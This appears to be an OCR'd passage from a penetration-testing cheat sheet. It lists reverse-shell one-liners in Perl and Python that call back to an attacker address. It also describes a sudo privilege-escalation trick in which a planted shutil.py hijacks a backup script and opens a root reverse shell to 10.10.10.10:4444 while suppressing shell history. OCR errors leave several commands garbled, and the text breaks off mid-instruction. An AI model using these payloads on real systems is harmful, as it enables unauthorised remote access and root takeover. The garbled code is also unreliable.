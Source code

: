 ### Perl language without /bin/sh

```text
perl -MIO -e '$p=fork;exit,if($p);$c=new
IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN- fdopen($c,r);$~-fdopen($
c, w) ; system$_ while ;'
```

### Perl language for windows

```text
perl -MIO -e '$c=new IO: :Socket: :INET(PeerAddr,''attackerip:4444'') ;STDIN-fdopen($
c,r) ;$~- fdopen($c,w) ;system$_ while ;'
```

### Python language

```text
python -c 'import socket, subprocess, os; s=socket. socket (socket. AF_INET,
socket.SOCK_STREAM); s.connect( ("10.0.0.1",1234)); os.dup2 (s.fileno() ,0);
os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
```
Or


```text
check sudoer script content like:

#!/usr/bin/python3
from shutil import make_archive
src = '/var/www/html/'
# old ftp directory, not used anymore
#dst = '/srv/ftp/html'
dst = '/var/backups/html'
make_archive(dst, 'gztar', src)
You have new mail in /var/mail/waldo

and create file for got root as shutil.py contains:

import os
import pty
import socket

lhost = "10.10.10.10"
lport = 4444

ZIP_DEFLATED = 0

class ZipFile:
   def close(*args):
       return
   def __init__(self, *args):
       return

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((lhost, lport))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
os.putenv("HISTFILE",'/dev/null')
pty.spawn("/bin/bash")
s.close()

and run sudoer script with 

```
